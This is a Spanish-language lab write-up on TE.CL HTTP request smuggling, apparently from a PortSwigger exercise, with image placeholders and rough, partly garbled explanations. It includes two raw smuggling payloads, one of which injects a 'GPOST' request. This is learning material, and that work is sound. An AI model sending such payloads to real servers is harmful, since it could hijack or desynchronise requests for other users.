 **TE.CL** (Transfer-Encoding to Content-Length)
En el burp enviamos un 0 que indica que la petición termino. El Content-Lenght lo lee el backend 
![[Pasted image 20240724144146.png]]
El frontend interpreta que el  El servidor backend interpreta que la petición termino, por el cero ![[Pasted image 20240724144959.png]]
~~~
POST / HTTP/1.1\r\n
Host: Portsqiger-lab\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 6\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
X
~~~
El frontend utiliza el transfer encoding (TE) y finaliza la solicitud, pero el backend interpreta el content lenght CL y cuenta 5 carriages por lo que espera un sexto y da un error "500 the conection has time out"

![[Pasted image 20240730193124.png]]
Acá el frontend cuenta los 3 carriages y finaliza todo en el uno. Ahora el backend interpreta una G y a continuación finaliza todo con el "0" por lo que da un error de "GPOST" 
![[Pasted image 20240730193527.png]]
Para completar el laboratorio enviamos una solicitud seguida, el frontend interpeta el cuerpo como los primeros cuatro dígitos (los dos carriage y los dos números, 56) pero el backend ve que estos números, 56 caracteres como la otra petición, la cual es válida porque el Transfer Encoding si es 5 caracteres
![[Pasted image 20240730195612.png]]
~~~
POST / HTTP/1.1\r\n
Host: Portsqiger-lab\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
56\r\n
GPOST / HTTP/1.1\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 5\r\n
\r\n
0\r\n
\r\n
~~~